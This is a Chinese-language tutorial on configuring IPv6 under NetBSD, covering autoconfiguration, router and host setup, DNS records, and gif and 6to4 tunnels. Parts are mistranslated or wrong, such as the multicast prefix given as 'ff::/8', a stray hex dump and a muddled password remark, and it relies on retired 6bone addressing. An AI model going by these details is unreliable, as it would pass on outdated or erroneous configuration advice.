安全已经是当今网络协议的一大需求，这促使 IPv6 包括了 IPsec，它允许鉴定、加密和压缩 IP 的通信量。除此之外，应用程序的协议（比如 SSL 或者 SSH）在两个节点之间的所有 IP 通信量，在没有调节任何应用程序的情况下就能将其处理。这样做非常有用。机器上的所有应用程序都可从加密和鉴定中获益，这种方法被用于基础网络上。不过，并不是每个程序或者说服务都需要这样做。

（3）**多点传送**

多点传送是创建虚拟计算机网络的一种能力，该虚拟网络中的每台计算机都能同时直接与其他每个成员通信。多点传送协议还不太普及。而且，在目前的因特网协议基础之上的多点传送效率实际上不高，因为整个因特网是通过大量单一点对点（或单播）链路连接起来的，因而无法很好地实现多点传送。

（4）**地址及其表示方法**

与主机会话有 3 种方法：unicast、broadcast 和 multicast。其中最普通的与主机会话办法就是 unicast address（单播地址）。多点传送不能被直接用在 IPv4 上，仅仅有一些程序（如 MBone audio 和 video broadcast utilities）可以用多点传送。在 IPv6 中，所有的网络和主机位被分配，并且可鉴别目标网络和主机。`ff::/8` 网络地址保留给多点传送程序。有两个特殊的 multicast addresses 取代了 IPv4 中的 broadcast addresses：一个是 “all routers” 多点传送地址，另一个是 “all hosts”。这些地址对各子网络是特殊的。例如，连接到两个不同子网络的路由器能够给主机/路由器赋地址如下：

```text
ff0x::1 for all-hosts
ff0x::2 for all-routers
```

```text
0000 3a80 0000 0000 2001 0218 0420 0000
0000 0000 0000 0000
```

### 网络配置文件

网络配置文件在一个设置文本中的配置文件里有详细说明。假如你配置一个主机（不是路由器）的话，就不需要配置这些，用 autoconfiguration 就可以了。如下：

- `/etc/rc.conf`：详细说明系统服务（包括网络服务）在系统初始化时自动启动。
- `/etc/hosts`：包括 FQDN 名字和 IPv6 数字地址之间的映射。
- `/etc/ifconfig`：包括用 ifconfig 对 IPv6 网络安装。

注：为了更加具体和方便理解，本文以 NetBSD 为例进行介绍。

## 在 IPv6 中主机如何自动配置

有两个分离的机制对 IPv6 自动配置进行了详细说明：其中一个叫 stateless address autoconfiguration（RFC2462 里有详细说明）；另一个叫 DHCPv6。

stateless address 基本配置工作包括两部分：一个是主机（可以被自动配置），一个是路由器（发送重要信息到主机）。

主机配置一个本地连接地址到它的网络接口。一个 IPv6 的本地连接地址以 `fe80` 开头，并在低 64 位上存在一个值。低 64 位被叫做接口 ID。对于以太网和其他接口来说，MAC 地址被用来作为接口 ID 的来源。如下：

```text
host% ifconfig ne2
ne2: flags=8863<UP,BROADCAST,NOTRAILERS,RUNNING,SIMPLEX,MULTICAST> mtu 1500
media: Ethernet manual
inet6 fe80::a00:5aff:fe38:6f86%ne2 prefixlen 64 scopeid 0x1
```

通过在路由器上运行 rtadvd，路由器定期广播一些关于连接的信息，并发送到该连接上的所有节点。这些信息通过 ICMPv6 “router advertisement” 包来承载。例如，广播以下信息：

- IPv6 子网络前缀是 `2001:218:420::/64`
- 缺省路由器在 `fe80::240:5ff:fea0:8e08`
- IPv6 链路 MTU、缺省 hop limit，还有路由存活时间

```text
14:18:20.812850 fe80::240:5ff:fea0:8e08 > ff02::1: icmp6: router advertisement ...
(chlim=64, router_lifetime=1800, reachable_time=30000, retrans_time=1000)
(mtu 1500) (prefix info: 2001:218:420::/64, valid=2592000, preferred=604800)
```

主机捕捉到这些广播信息，并配置全局 IPv6 地址和缺省路由器。在主机上运行 ndp，我们能看到很多详细的关于路由器邻居广播的信息。

```text
host% ifconfig ne2
ne2: flags=8863<UP,BROADCAST,NOTRAILERS,RUNNING,SIMPLEX,MULTICAST> mtu 1500
media: Ethernet manual
inet6 fe80::a00:5aff:fe38:6f86%ne2 prefixlen 64 scopeid 0x1
inet6 2001:218:420:0:a00:5aff:fe38:6f86 prefixlen 64
```

通过随意发送一个 ICMPv6 “router solicitation” 包，主机能请求来自路由器的广播。rtsol 发送路由器请求包。假如你运行一个移动节点，可以运行 rtsol 并且定期地转送路由器请求。该数据包如下：

```text
14:18:20.300501 fe80::a00:5aff:fe38:6f86 > ff02::2: icmp6: router solicitation
(src lladdr: 8:0:5a:38:6f:86) ...
```

## 建立一个 IPv6 路由器和 IPv6 主机

### 1. 建立 IPv6 路由器

首先，你需要获得一个来自 upstream 提供者的 IPv6 全局地址。如果你已经有了这个地址，可以根据以下步骤配置：

- 1. 为网络接口加手动配置到 `/etc/ifconfig`、`rc.conf` 或者 `/etc/netstart.local`。
- 2. 在 `rc.conf` 中配置：

```text
ip6mode="router"
rtsol="NO"
rtadvd="YES" rtadvd_flags="-sml ne2"
```

- 3. 微调路由器的广播时间，需要编辑 `/etc/rtadvd.conf`。
- 4. 如果想通过 RIPng 给路由器发请求，为运行 route6d 配置 rc.conf。
- 5. 执行重启。

自动配置路由器是不可能的，所以到头来我们可能什么也得不到。

### 2. 建立一个 IPv6 主机

假如你有一个 IPv6 路由器在网络上，你需要做如下设置。重启以后，主机将用 Router Advertisements 自动配置。

在 `rc.conf` 中配置如下：

```text
ip6mode="autohost"
rtsol=YES  # rtsol_flags="smth"  # set your interface here
```

对于第2行，也可以用 `/etc/ifconfig`。  
IFN，如下：`up rtsol $int`

最后重启。假如网络上没有 IPv6 路由器，你可以手动配置系统。

## 手动配置方面的安全要点

因为 IPv6 地址变成了 128 比特，手动配置出现错误的几率会比较高，所以要尽量少用手动配置。若要配置一个路由到另一个路由，可以运行 route6d 程序。若要在主机上配置一个接口地址，可通过配置 `ip6mode=autohost` 和 `rtsol=YES` 从邻近路由器得到信息。

手动配置维护非常麻烦，但如果必须手动配置（比如手动配置一个节点），给网络接口加手动配置到 `rc.conf` 里。首先，必须通过设置 ip6mode 来声明节点（主机或者路由器）的属性，如下：

```text
ip6mode="router"   # forward packets for others
ip6mode="host"     # do not forward packets for others
```

这时，把接口配置加到 `rc.conf` 里，或者其他文件资源，比如 `/etc/ifconfig.xxN`。在 `/etc/ifconfig.xxN` 里可以这样做：

```text
inet 10.1.1.1 netmask 0xffffff00
inet6 3ffe:501:ffff:1:: prefixlen 64 alias
```

注意：`alias` 在这一行结尾。  
如果有多个接口地址带有 IPv6 协议时，强制设置一个密码。假如你通过 rc.conf 的配置不隐蔽，配置可以添加到 `/etc/netstart.local` 或 `/etc/rc.local` 里。你要用到以下程序：

- ifconfig：观察或者改变网络接口的特性。
- route：操作网络路由平台。

## 给网络上的新节点命名

通过 `/etc/hosts`，主机名被转换为 IPv6 地址，这和 IPv4 非常相似。YP（一个配置工具）非常有用，操作如下。

- 1. `/etc/hosts`：对于一些节点较少的小网络，主机名/IP 映射可以手动复制到每个节点的 `/etc/hosts` 文件里。

```text
/etc/hosts:
3ffe:501:ffff:a:b:c:d  host2.mydomain.org.au host2
```

- 2. DNS：假如主机名映射被集中到 zone-files 里，那么可以通过服务器名字访问 Named，如下所示：

```text
Forward zone file entry
host2   IN AAAA    3ffe:501:ffff:a:b:c:d
Reverse zone file entry
```

```text
d.0.0.0.c.0.0.0.b.0.0.0.a.0.0.0.0.0.0.0.0.0.0.0.0.1.f.f.f.1.0.5.0.e.f.f.3.ip6.arpa.
IN PTR host2.mydomain.org.au.
```

注意：假如你已经知道 A6 记录和 DNS-A6 的位字符串标签，AAAA 用来产生服务并且正常运转。还要注意反向 DNS 平台从 `ip6.int` 移到 `ip6.arpa`。6Bone（3ffe）的地址仅仅在 `ip6.int` 里可知。当 `ip6.int` 消失时，地址应当在 `ip6.arpa` 下请求。需要注意的是，以下地址不一定出现在全局 DNS 分布上：

- 1. link-local 地址（匹配 `fe80::/10`，如 `fe80::1`）
- 2. site-local 地址（匹配 `fec0::/10`，如 `fec0::1`）
- 3. v4 mapped 地址（匹配 `::ffff:0.0.0.0/96`，如 `::ffff:10.1.1.1`）

这些地址在节点上仅供本地使用，不能直接放到 DNS 数据库里。不推荐将以下地址放在 DNS 分布中：

- multicast 地址（匹配 `ff00::/8`，如 `ff05::1`）

对于 NetBSD/KAME IPv6 编码，由于缺少支持，以下地址没有意义：

- v4 compatible 地址（匹配 `::0.0.0.0/96`，如 `::10.1.1.1`）

NetBSD/KAME 不支持 RFC2893 里的自动隧道。

## IPv6 的反向隧道

这取决于 ISP 的状况。你能获得本地 IPv6 连通性，或者你能得到隧道连通性（IPv6 包封装到 IPv4 包）。以下说明后者情况。你可以接通你的机器实验 IPv6 网络，这叫做 “6bone”。你将与最近的 6bone 站点建立会话，来获得 IPv6 地址前缀。注意：你必须有一个固定的 IPv4 全局地址。假如你没有固定 IPv4 全局地址（比如你用拨号 ISP 连接），你可以连接到 Freenet6。连接到 Internet 时，它们提供 Web 接口以便连接到你的局域网。

在两种情况下，你都需要在路由器上建立一个 IPv6-over-IPv4 隧道接口。请参考 gif 的详细资料。

- 1. 建立一个 gif 隧道

创建 `/etc/ifconfig.gif0`，内容如下。第一个（x.x.x.x）是本地 IPv4 地址，第二个（y.y.y.y）是对端 IPv4 地址：

```text
create                  (only needed on post-1.5)
tunnel x.x.x.x y.y.y.y
# 也可以加以下内容到 /etc/netstart.local 或者 /etc/rc.local:
# ifconfig gif0 create  (only needed on post-1.5)
# ifconfig gif0 tunnel x.x.x.x y.y.y.y
```

`tunnel` 关键字可以用 gifconfig 配置如下：

```bash
# gifconfig gif0 x.x.x.x y.y.y.y
```

- 2. 检查隧道是否正常工作

首先试试调用以下命令：

```bash
# ping6 -n ff02::1%gif0
```

假如你看到两个数据包，一个来自本地节点，另一个来自远程节点，隧道工作正常。要是 x.x.x.x 和 y.y.y.y 之间有可达性问题，则可能只看到一个回应，或者没有回应。若遇到麻烦，可按以下方法操作：

- 1) 确定没有 NAT box，隧道 IPv6 数据包不能通过这个 NAT box。
- 2) 确定没有任何 IPv4 包过滤器。

- 3. 交换通道

这取决于 upstream 配置。你应该建立一个缺省通道到 upstream，或者运行一个路由后台程序。以上配置可用 RFC2893 IPv6-over-IPv4 来配置隧道。注意：RFC2893 数据包不能通过 NAT 路由器。

## 典型的 IPv6 网络安装（来自 upstream 并带有 /48 前缀）

假设你已经获得地址前缀（`3ffe:0501:ffff::/48`，来自 upstream）。假如你有两个以太网节点在你的局域网里，如图1所示。两个路由器 A 和 B 运行 IPv6-capable NetBSD。IPv4 地址按如下分配，你希望通过 IPv6-over-IPv4 反向连接：从 `x.x.0.1/24` 的路由器到 `y.y.y.10` 的 upstream 路由。

首先，你必须配置隧道，从 myrouter A 到 upstream。在 myrouter A 上用 ifconfig 配置隧道。通过 ping6 可以验证可达性。`ff02::1` 是所有节点的多点传送地址。在这种情况下，该地址可到达隧道里的所有节点：myrouter A 和 upstream 路由。假如你从这两个节点都得到回答，说明隧道工作良好。假如你仅从 A 节点得到回答，你和 upstream 之间就出了问题，可能是 IPv4 过滤，也可能是错误配置或其他原因。

```bash
# ifconfig gif0 create (only needed on post-1.5)
# ifconfig gif0 tunnel x.x.0.1 y.y.y.10
# ping6 -I gif0 -n ff02::1
PING6(56=40+8+8 bytes) ...
16 bytes from ... icmp_seq=0 hlim=64 ...
```

接下来，你需要从地址块 `3ffe:0501:ffff::/48` 中分配子网地址到两个以太网段。因为 IPv6 子网前缀长度总是 /64，所以你有 65536 个子网可用。分配 `3ffe:0501:ffff:0000::/64` 给以太网 0，分配 `3ffe:0501:ffff:0001::/64` 给以太网 1（图2）。

然后给路由器分配 IPv6 全局地址，因为路由器必须手动配置。你需要执行 `ifconfig` 进行手动配置。对于 myrouter A，找到本地连接 IPv6 地址（以 `fe80` 开头），取其低 64 bits，子网地址取上面的 64 bits，组合后配置。可写入 `/etc/ifconfig.ne2`，应用设置需重启系统。

```bash
# ifconfig ne2
ne2: flags=... mtu 1500
inet x.x.0.1 netmask 0xffffff00 broadcast x.x.0.255
inet6 fe80::... prefixlen 64 scopeid 0x1
# ifconfig ne2 inet6 3ffe:501:ffff:0:a00:5aff:fe38:6f86 prefixlen 64 alias
# echo 'inet6 3ffe:501:ffff:0:a00:5aff:fe38:6f86 prefixlen 64 alias' >> /etc/ifconfig.ne2

For myrouter B, do the similar thing:
# ifconfig tlp0 inet6 3ffe:501:ffff:0:a00:5aff:fe38:8765 prefixlen 64 alias (ethernet 0 side)
# ifconfig tlp1 inet6 3ffe:501:ffff:1:a00:5aff:fe38:9710 prefixlen 64 alias (ethernet 1 side)
```

为了交换路由信息，你需要在两个路由器上运行 `route6d`。现在连接到 upstream 应该没有问题了，试着 Ping 一个外部 IPv6 的节点，不要忘了给 `ping6` 加 `-n`。在你测试的时候，IPv6 upstream 地址查找费时较长，所以要避开它。

```bash
# route6d      (on both routers)
# ping6 -n www.6bone.net
```

假如你有一个目标主机（没有路由的节点）在你的网络上，这要求你的路由器广播子网络的信息到目标主机。通过做这些事，使你的目标主机能自动配置。你只需要准备 `/etc/rtadvd.conf`，并且运行 `rtadvd`。注意你应该从 upstream 的路由器上广播子网络信息，在这一步中，你的 myrouter A 应该连到以太网 0；并且 myrouter B 连到以太网 0 和 1。你要使它失去从 myrouter B 到以太网 0 发送信息的能力，因为 B 是次优的而不是最佳的缺省路由。假如你不能使它失去该能力，当 myrouter A 停止的时候，在以太网 0 上的主机将不能与在以太网 1 上的机器会话。

```bash
# rtadvd ne2   (from myrouter A to ethernet 0)
# rtadvd tlp0 tlp1   (from myrouter B to ethernet 0 and 1)
```

这时为了能自动配置，你就需要在目标节点上运行 `rtsol` 或者 `rtsold`。

## 典型的 IPv6 网络安装

带有 6to4 /48 前缀

假如你有多个静态的全局 IPv4 地址，对你自己的 /48 IPv6 前缀，可以用 6to4 机制（RFC3056）。一个 “public 6to4 relay router” 路由隧道需要配置其中一台机器作为 6to4 网关，压缩 IPv6 数据包到 IPv4 并且把它们发送到 6to4 转送路由。假如你的 IPv4 地址是 x.y.z.u，那么你的 IPv6 前缀就是 `2002:xxyy:zzuu::/48`（xx、yy、zz 和 uu 是十六进制符号，分别和 x、y、z、u 一一对应）。



假如你的 ISP 给你一个私有的 IPv4 地址（比如 10.x.x.x），你就不能用这个机制。这个机制将不能通过 NAT 设备工作。让我们采取如图 3 所示的布局，并且 myrouter A 有一个 IPv4 地址 x.y.z.u。对于 myrouter B 来说，IPv4 地址无关紧要。

首先，你必须在 myrouter A 上配置 6to4 隧道接口。我们要去除 IPv6 子网络前缀（`2002:xxyy:zzuu:0000::/64`）在隧道上的使用。RFC 3068 发布以后，现在大家都用 6to4 来配置他们的缺省路由到 `2002:c058:6301::`。对于最近的转递路由来说，anycast 地址是不可思议的。这里也有关于公共转递路由的列表，路由可以从列表中选择。注意接口不支持 IPv6 多播时，在 stf0 接口上你不能用 `ff02::1` 测试。因此，通过缺省 GENERIC 内核不能使用接口 stf0 时，你就需要重新编译你的内核。

```bash
# ifconfig stf0 create   (only needed on post-1.5)
# ifconfig stf0 inet6 2002:xxyy:zzuu:0000::1 prefixlen 16 alias
# route add -inet6 default 2002:c058:6301::   (or another one from the list)
```

接下来，你需要从地址块上给子网络地址赋值到你的两个以太网段。我们已经把 `2002:xxyy:zzuu:0000::/64` 用在了隧道上，就不能在以太网接口上用了。在这里，我们可以用 `2002:xxyy:zzuu:0001::/64` 和 `2002:xxyy:zzuu:0002::/64`，如图 4 所示。



现在可以回到前一部分来安装 myrouter B，还有 RIPng 路由，当然也少不了 router 广播。

### 解决 DNS 名称通过 IPv6

为了进入一个完整的 IPv6 环境，你需要用 IPv6 连接一个名字服务器。这个非常简单，你只要把 IPv6 地址放到 `resolv.conf` 里就可以了。假如你想在一个现有的 DNS 服务器上运行 IPv6 transport，可以试试运行 bind9，配置如下：

```conf
nameserver 3ffe:501:4819::42
```

在上面的地址里，一个处于正常状态的 IPv6-ready DNS 服务器正在运行。

### 如何使用 FAITH TCP 转译

我们不能直接连接一个 IPv6-only 客户端到 IPv4 服务器上，这需要一个叫 “translator” 的设备。NETBSD 配备了 faithd TCP 转译，它可以通过 IPv6 TCP 使 IPv6-only（或 IPv4/v6）客户端能够连接到 IPv4-only 服务器端上。通过使用带 totd 的 DNS 代理服务，你能安装一个 IPv6-to-IPv4 translator 的环境，如图 5 所示。



图5

### IPv6 通过 IPv4 路由器和 NAT 路由器

假如你现在的机制里有一个 IPv4-only 路由、IPv4 NAT 路由器，或者其他 IPv6 网络的障碍，你可以用以下方法越过这些障碍。从下面的方法中，选择一个与你最相配的网络配置：

在以太网段之间放了两个路由器，一个对 IPv4，一个对 IPv6。你可以只放 IPv6-only 路由在两段之间，仅使 IPv6 路由可用，这个方法没有涉及到 IPv4（图6）。



图6

在 IPv4 中，私有/全局地址的使用不需要 IPv6 网络。假如你管理网络的办法是允许的话，当 IPv4 网络从私有地址段和全局地址段分离时，你能通过 NAT box/firewalls 来配置全局 IPv6 的可达性，如图7所示。



图7

在一些情况下，你可以用普通的 IPv4 打造一个在段之间进行 IPv6 交换的桥梁。如果能配置你的 IPv4 路由器通过以太网协议类型 0x86dd，也就只能架一个 IPv6 输送。在这种情况下，IPv6 和 IPv4 之间子网络的分配就会变得不一样，这些事做得太多，很让人头痛（图8）。



图8

在你的机制中，你要 IPv4 的性能达到在两个比较远的位置之间，用 IPv6-over-IPv4 隧道来通过 IPv4-only 网络之间（图9）。

